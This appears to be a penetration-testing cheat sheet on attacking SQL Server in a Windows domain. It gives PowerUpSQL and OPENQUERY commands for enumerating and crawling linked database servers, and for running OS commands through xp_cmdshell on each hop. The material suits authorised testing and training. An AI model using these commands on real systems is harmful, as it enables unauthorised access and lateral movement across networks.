 # SQL Servers

## List accesses to database server

For this, we need the PowerupSQL module:

```powershell
> Import-Module .\PowerupSQL-master\PowerupSQL.psd1
```

```powershell
> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## Enumeration of SQL links

```powershell
> Get-SQLServerLink -Instance server.domain -Verbose
```

## Access linked databases

Through openquery in HeidiSQL:

```sql
> select * from master..sysservers
"List of IPs"
> select * from openquery("IP", 'select * from master..sysservers')
"List of DBs"
> SELECT * FROM OPENQUERY("IP", 'select * from openquery("DB", ''select @@version as version'')')
"Version of server"
```

It is also possible to use PowerUp:

```powershell
> Get-SQLServerLinkCrawl -Instance us-mssql -Verbose
Path : {US-MSSQL}
Path : {US-MSSQL, 192.168.23.25}
Path : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
```

This shows that from US-MSSQL, it is possible to access DB server 192.168.23.25. And from this DB server, it is possible to access DB server DB-SQLSRV.

## Execute command

Execute a command on each node of the path where xp\_cmdshell is enabled:

```powershell
> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```
